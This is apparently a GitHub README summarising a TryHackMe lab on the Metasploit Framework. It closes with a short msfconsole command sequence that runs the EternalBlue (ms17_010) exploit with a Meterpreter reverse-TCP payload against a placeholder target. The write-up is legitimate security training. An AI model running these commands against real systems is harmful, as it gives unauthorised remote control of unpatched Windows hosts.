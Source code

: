 # Metasploit: Introduction (TryHackMe)

This repository documents my hands-on walkthrough and key learnings from the **"Metasploit: Introduction"** room on [TryHackMe](https://tryhackme.com/room/metasploitintro). This room introduces the essential components of the Metasploit Framework and guides through a basic exploitation scenario using the famous EternalBlue vulnerability.

---

## Room Overview

- **Platform**: TryHackMe  
- **Difficulty**: Easy  
- **Category**: Exploitation Basics  
- **Focus**: Metasploit Framework, msfconsole, module usage, EternalBlue exploitation

---

## Key Concepts Learned

- Structure and functionality of the Metasploit Framework
- Navigating and using `msfconsole`
- Working with **Metasploit modules**:
  - Exploits
  - Payloads
  - Auxiliary modules
  - Encoders and NOPs
- Using `search`, `use`, `set`, `run` commands
- Exploiting `ms17_010` (EternalBlue) vulnerability using Metasploit

---

## Tools Used

- **Kali Linux**
- **Metasploit Framework**
- **TryHackMe AttackBox**
- **Windows 7 vulnerable VM (ms17_010)**

---

## Completion
![Room Completion](https://github.com/MayankQuery/tryhackme-writeups/blob/main/metasploit-introduction/images/metasploit-introduction-completion.png)
![Room Practice](https://github.com/MayankQuery/tryhackme-writeups/blob/main/metasploit-introduction/images/metasploit-introduction-practice.png)

---

## Exploitation Summary

```bash
msf > search ms17_010
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(...) > set RHOSTS [Target IP]
msf exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(...) > set LHOST [Your IP]
msf exploit(...) > exploit



